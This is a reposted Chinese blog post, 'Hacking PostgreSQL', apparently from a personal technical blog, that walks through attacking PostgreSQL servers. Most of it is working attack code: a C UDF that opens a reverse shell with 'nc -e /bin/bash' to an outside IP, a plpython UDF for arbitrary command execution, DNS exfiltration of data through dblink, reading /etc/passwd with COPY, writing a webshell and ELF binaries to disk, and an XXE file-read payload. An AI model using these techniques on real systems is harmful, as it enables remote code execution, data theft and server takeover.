






## Hacking PostgreSQL 
##### [TAG 6](../class/6.md)
            
### 作者           
digoal            
            
### 日期          
2016-10-18             
            
### 标签          
PostgreSQL , sql注入 , ssrf , PostgreSQL , hacking           
            
----          
            
本文为转载文章，原文地址  
   
http://www.cnblogs.com/Yinxinghan/p/Hacking_PostgreSQL.html  
  
## 背景
这篇文章主要讲解了如何 Hacking PostgreSQL 数据库，总结了一些常用方法。   
  
## SQL 注入
大体上和 MySQL 差不多，有一些变量不一样。    
  
具体就不再举例，可以看这篇总结：PostgreSQL SQL Injection Cheat Sheet。   
    
此外，利用 sqlmap 也是一个不错的方式。   
    
## 执行命令
### C
sqlmap 给出的几个 UDF 在我本地测试并不成功，所以最好的方法是自己编译一个动态链接库。  
  
根据官方文档，我们要定义一个 PG_MODULE_MAGIC。  
  
大概是 PostgreSQL 的安全机制，在 8.2 以后需要验证这个 magic block，不然，在加在动态链接库的时候会报错：   
  
```
ERROR:  incompatible library "xxx.so": missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
  
执行系统命令的动态链接库源码为：   
  
```
 1 #include "postgres.h"
 2 #include "fmgr.h"
 3 #include <stdlib.h>
 4 
 5 #ifdef PG_MODULE_MAGIC
 6 PG_MODULE_MAGIC;
 7 #endif
 8 
 9 text *exec()
10 {
11     system("nc -e /bin/bash 10.211.55.2 9999");
12 }
```
   
利用如下命令编译 .so 文件：   
  
```
gcc 1.c -I`pg_config --includedir-server` -fPIC -shared -o /tmp/1.so
```
  
在 pgsql 里执行：   
  
```
CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  '/tmp/1.so', 'exec' LANGUAGE C STRICT;
select exec();
```
  
监听的 9999 端口得到一个 shell：  
  
    
  
### Python
默认 PostgreSQL 不会安装 Python 的扩展，在 Ubuntu 下可以通过：   
  
```
apt-get install postgresql-plpython-9.1
```
  
进行安装，除了 python 的扩展，还有 sh、perl、ruby 等等。  
  
安装完成后，首先是创建一个 UDF 来执行我们要执行的命令： 
  
```
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython2u;
```
  
其中的 plpython2u 可以利用如下语句获取：  
  
```
select * from pg_language;
```
  
我们可以根据返回来判断利用哪个语言（plpython2u、plpythonu、plpython3u 等等）。   
  
    
  
创建好 UDF 后，直接调用如下语句即可：  
  
```
select system('ls -la');
```
  
    
  
此外，sh、ruby 等同理，可以参考官方文档来写一个 UDF。   
  
文档地址：http://www.postgresql.org/docs/8.2/static/server-programming.html   
  
## DNS 请求获取数据
同样的，PostgreSQL 可以通过 DNS Request 一样获取数据，在盲注的情况下。  
  
用到的一个扩展叫做 dblink，可以通过如下命令开启：   
  
```
CREATE EXTENSION dblink
```
  
接着运行如下语句，获取当前数据库用户名称：  
  
```
SELECT * FROM dblink('host='||(select user)||'.f27558c1f94c0595.xxxxx.xx user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);
```
  
    
  
远程获取到请求内容：   
  
    
  
## 读写文件
### 读
PostgreSQL 读取文件虽然有些蛋疼，但是还是可以读取的：   
  
```
CREATE TABLE temptable(t text);
COPY temptable FROM '/etc/passwd';
SELECT * FROM temptable limit 1 offset 0;
```
  
读取结束后：   
```
DROP TABLE temptable;
```
  
新版本则可以直接通过函数或者使用大对象操作接口来读取。  
  
```
 pg_catalog | pg_read_binary_file       | bytea            | text                                                                                                                                                                            
 pg_catalog | pg_read_binary_file       | bytea            | text, bigint, bigint                                                                                                                                                            
 pg_catalog | pg_read_binary_file       | bytea            | text, bigint, bigint, boolean                                                                                                                                                   
 pg_catalog | pg_read_file              | text             | text                                                                                                                                                                            
 pg_catalog | pg_read_file              | text             | text, bigint, bigint                                                                                                                                                            
 pg_catalog | pg_read_file              | text             | text, bigint, bigint, boolean                                                                                                                                                   
 pg_catalog | pg_stat_file              | record           | filename text, OUT size bigint, OUT access timestamp with time zone, OUT modification timestamp with time zone, OUT change timestamp with time zone, OUT creation timestamp with
 pg_catalog | pg_stat_file              | record           | filename text, missing_ok boolean, OUT size bigint, OUT access timestamp with time zone, OUT modification timestamp with time zone, OUT change timestamp with time zone, OUT cre
ation timestamp with time zone, OUT isdir boolean | normal
```
  
```
 pg_catalog | lo_close                                 | integer                  | integer                                                                                                      
                                                                                                            
 pg_catalog | lo_creat                                 | oid                      | integer                                                                                                      
                                                                                                            
 pg_catalog | lo_create                                | oid                      | oid                                                                                                          
                                                                                                            
 pg_catalog | lo_export                                | integer                  | oid, text                                                                                                    
                                                                                                            
 pg_catalog | lo_from_bytea                            | oid                      | oid, bytea                                                                                                   
                                                                                                            
 pg_catalog | lo_get                                   | bytea                    | oid                                                                                                          
                                                                                                            
 pg_catalog | lo_get                                   | bytea                    | oid, bigint, integer                                                                                         
                                                                                                            
 pg_catalog | lo_import                                | oid                      | text                                                                                                         
                                                                                                            
 pg_catalog | lo_import                                | oid                      | text, oid                                                                                                    
                                                                                                            
 pg_catalog | lo_lseek                                 | integer                  | integer, integer, integer                                                                                     
                                                                                                            
 pg_catalog | lo_lseek64                               | bigint                   | integer, bigint, integer                                                                                     
                                                                                                            
 pg_catalog | lo_open                                  | integer                  | oid, integer                                                                                                 
                                                                                                            
 pg_catalog | lo_put                                   | void                     | oid, bigint, bytea                                                                                           
                                                                                                            
 pg_catalog | lo_tell                                  | integer                  | integer                                                                                                      
                                                                                                            
 pg_catalog | lo_tell64                                | bigint                   | integer                                                                                                      
                                                                                                            
 pg_catalog | lo_truncate                              | integer                  | integer, integer                                                                                             
                                                                                                            
 pg_catalog | lo_truncate64                            | integer                  | integer, bigint                                                                                              
                                                                                                            
 pg_catalog | lo_unlink                                | integer                  | oid                                                                                                      
```
  
### 写
写文件分为两个部分，一个是写 webshell，另外一个是写二进制文件。   
  
写 webshell 十分简单，利用：   
  
```
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```
    
即可写一个文件。   
    
根据疯狗的这一篇帖子：   
    
http://zone.wooyun.org/content/4971  
  
，说是可以利用PostgreSQL 的“大对象数据”来写，但是我测试是失败的。报错如下：   
```
ERROR:  pg_largeobject entry for OID 2008, page 0 has invalid data field size 2378
```
    
用 COPY 语句，format 为 binary 的情况下来写文件的话，会被 PostgreSQL 加上几个字节，导致不能识别为 ELF 文件。   
  
实际上，阅读官方文档可知，写的文件每一页不能超过 2KB，所以我们要把数据分段：   
  
```
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);
```
  
其中每一段都要小于等于 2KB，这样就可以成功写入：   
  
    
  
## XXE
老版本的 PostgreSQL 存在 XXE 漏洞。  
  
具体可以看这篇文章：PostgreSQL (all) error-based XXE 0day。   
  
大体就是执行语句：   
```
select xmlparse(document '<?xml version="1.0" standalone="yes"?><!DOCTYPE content [ <!ENTITY abc SYSTEM "/etc/network/if-up.d/mountnfs">]><content>&abc;</content>');
```
  
可以获取一些数据，也可以进行 SSRF 等。  
  
不过因为年代很久，可能很多都修复过了，所以作为一个保留方案，可能会有意外的惊喜。   
  
## 参考
1\. PostgreSQL SQL Injection Cheat Sheet  
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet  
  
2\. 关于PostgreSQL的那些事儿（文件读取写入、命令执行的办法）  
http://zone.wooyun.org/content/4971  
  
3\. PostgreSQL 9.0 Documentation   
http://www.postgresql.org/docs/9.0/  
  
4\. PostgreSQL (all) error-based XXE 0day  
http://lab.onsec.ru/2012/06/postgresql-all-error-based-xxe-0day.html  
  
5\. hack 云服务 pdf  
[pdf](20161018_02_pdf_001.pdf)  
  
    
        
    
  
<a rel="nofollow" href="http://info.flagcounter.com/h9V1"  ></a>  
  
  
  
  
  
  
## [digoal's 大量PostgreSQL文章入口](https://github.com/digoal/blog/blob/master/README.md "22709685feb7cab07d30f30387f0a9ae")
  
